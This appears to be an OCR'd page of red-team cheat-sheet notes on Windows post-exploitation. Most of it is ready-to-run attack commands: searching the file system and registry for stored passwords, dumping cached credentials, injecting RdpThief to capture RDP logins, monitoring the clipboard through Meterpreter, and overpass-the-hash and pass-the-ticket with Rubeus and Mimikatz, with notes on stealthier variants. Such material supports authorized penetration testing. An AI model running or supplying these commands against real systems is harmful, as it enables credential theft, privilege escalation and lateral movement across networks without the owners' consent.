     //Full Find:
        dir /b /a /s c:\ > cdirs.txt
        type cdirs.txt | findstr /i passw
        type cdirs.txt | findstr /i unattend
        type cdirs.txt | findstr /i panther
        type cdirs.txt | findstr /i sysprep
        type cdirs.txt | findstr /i web.config
        type cdirs.txt | findstr /i vnc.ini

    //Other:
        reg query HKLM /f password /t REG_SZ /s
        reg query HKCU /f password /t REG_SZ /s
        cmdkey /list
        reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

    //Monitor Creds:
        //Start RDP Creds Monitor if users are connecting out:
            //upload RdpThief.dll to C:\Windows\Tasks and run RdpThiefInjector.exe - watch for creds in C:\Users\<you>\AppData\Local\Temp\6\data.bin

    //Monitor Clipboard:
        load extapi
        clipboard_monitor_start
        clipboard_set_text "TEST"
        clipboard_get_data
        clipboard_monitor_dump
        clipboard_monitor_stop

### Domain
- **See DOMAIN SURVEY page**

### Lateral Movement

    //Domain Lateral Movement:
        //Overpass-the-hash:
            # Request a TGT as the target user and pass it into the current session
            # NOTE: Make sure to clear tickets in the current session (with 'klist purge') to ensure you don't have multiple active TGTs
                .\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /ptt
            # More stealthy variant, but requires the AES256 key (see 'Dumping OS credentials with Mimikatz' section)
                .\Rubeus.exe asktgt /user:Administrator /aes256:[AES256KEY] /opsec /ptt
            # Pass the ticket to a sacrificial hidden process, allowing you to e.g. steal the token from this process (requires elevation)
                .\Rubeus.exe asktgt /user:Administrator /rc4:[NTLMHASH] /createnetonly:C:\Windows\System32\cmd.exe
            # Or, a more opsec-safe version that uses the AES256 key (similar to with Rubeus above) - works for multiple Mimikatz commands
                sekurlsa::pth /user:Administrator /domain:targetdomain.com /aes256:[AES256KEY] /run:powershell.exe
            //Mimikatz (riskier):
                sekurlsa::pth /user:Administrator /domain:targetdomain.com /ntlm:[NTLMHASH] /run:powershell.exe
